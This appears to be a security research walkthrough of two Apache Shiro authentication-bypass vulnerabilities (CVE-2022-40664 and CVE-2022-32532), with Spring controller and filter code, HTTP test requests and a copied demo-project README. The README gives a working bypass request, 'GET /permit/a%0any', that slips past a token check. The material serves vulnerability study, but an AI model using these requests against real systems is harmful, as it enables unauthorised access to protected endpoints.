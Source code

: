 # CVE-2022-40664 research walkthrough

> Apache Shiro before 1.10.0, Authentication Bypass Vulnerability in Shiro when forwarding or including via RequestDispatcher.

[![CVE-2022-40664 research walkthrough](https://image.yjs2635.xyz/images/2022/10/25/CVE-2022-40664-Research-Walkthrough2x.md.png)](https://youtu.be/mQrGYHKD8pk)

## walkthrough[^1]

```http
GET /admin/auth_pass HTTP/1.1
```

```http
GET /admin/auth HTTP/1.1
```

```http
GET /admin/auth HTTP/1.1
Token: 4ra1n
```

## exchange redirect from forward ?[^3]

```java
    @RequestMapping("/admin/{value}")
    public String CVE_2022_40664_bypass(@PathVariable String value, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        System.out.println("=========== /admin" +((HttpServletRequest)request).getRequestURI()+ "/ ===========");
        //        request.getRequestDispatcher("/admin/auth").forward(request, response);
        //        return "forward:"+((HttpServletRequest)request).getRequestURI();
        response.sendRedirect("/admin/auth");
        return ("Redirect:/admin/auth");
    }
```

forward[^4]

```java
request.getRequestDispatcher("/admin/auth").forward(request, response);
```

## shiro 1.10.0

Define Bean[^2]

[SecurityManager](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheShiro/CVE-2022-40664/src/main/java/com/example/shirodemo/ShiroConfig.java#L21)[^5]{:target="_blank"}

```java
@Bean
public MyShiroFilterFactoryBean filterRegBean(SecurityManager securityManager) throws Exception{
        // CVE-2022-40664
        // fixed conf
        ShiroFilterConfiguration conf=new ShiroFilterConfiguration();
        conf.setFilterOncePerRequest(false);

        ShiroFilterFactoryBean shiroFilterFactoryBean=new ShiroFilterFactoryBean();
        shiroFilterFactoryBean.setSecurityManager(securityManager);
        shiroFilterFactoryBean.setShiroFilterConfiguration(conf);
        AbstractShiroFilter filter=shiroFilterFactoryBean.getObject();

        MyShiroFilterFactoryBean reg=new MyShiroFilterFactoryBean();
        reg.setFilter(filter);
        reg.addUrlPattern("/*");
        reg.setName("shiroFilter");
        reg.setSecurityManager(securityManager);
        reg.setDispatcherTypes(EnumSet.allOf(DispatcherType.class));
        //fixed conf end.
        return reg;
        }
```

Do not work.

## reference

[^1]: [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532){:target="_blank"}
[^2]: [defining a bean named 'shiroFilterFactoryBean'](https://blog.csdn.net/hanzl1/article/details/104228376){:target="_blank"}
[^3]: [CVE-2022-40664](https://juejin.cn/post/7154702383720136718#heading-0){:target="_blank"}
[^4]: [Shiro 1.7和1.10对于forward请求的处理](https://blog.csdn.net/xyjy11/article/details/127324055){:target="_blank"}
[^5]: [SpringBoot整合shiro-spring-boot-web-starter](https://blog.csdn.net/liu320yj/article/details/109090797){:target="_blank"}
[^6]: [[ANNOUNCE][CVE-2022-32532] Apache Shiro 1.9.1 released](https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh){:target="_blank"}

# [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532)

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)